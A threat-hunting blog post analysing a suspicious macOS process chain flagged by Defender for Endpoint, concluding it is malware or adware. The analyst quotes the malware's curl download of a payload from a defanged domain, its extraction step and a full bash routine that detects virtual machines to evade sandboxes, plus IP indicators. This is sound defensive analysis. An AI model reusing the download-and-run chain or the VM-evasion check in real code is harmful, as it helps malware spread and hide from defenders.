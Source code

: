 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
mermaid: true
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for the sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain as it is part of the OS (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes, for example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "451CEB63-C438-40C3-899F-0BE4F425F074"?
here again, for simplicity I focus on one of these odd looking processes, there are a bucket load of them.

This executable runs a download via curl of some additional code from [external](https://www.virustotal.com/gui/url/602823beeb1e3e8c4b09c1c4defeb5c6381620e6a6b9be9c3120df12c21c0f0e) and extracts it to "/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

After that the archive helpexecd.tgz is extracted to /var/tmp/helpexecd/ and executed.
This new process helpexecd then runs the following command (amongst other things)
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
```mermaid
flowchart TD;
kernel_task --> launchd;
launchd --> xpcproxy;
xpcproxy --> |run| apadecoded;
apadecoded --> 451CEB63-C438-40C3-899F-0BE4F425F074;
apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
apadecoded --> AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
451CEB63-C438-40C3-899F-0BE4F425F074 --> curl;
DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> |run| curl;
AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl;
curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142;
cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134;
89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz;
/private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd;
helpexecd --> 35.160.226.50;
helpexecd --> 34.217.226.241;
style apadecoded stroke-dasharray: 88.5 44
style helpexecd stroke-dasharray: 88.5 44
```

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess
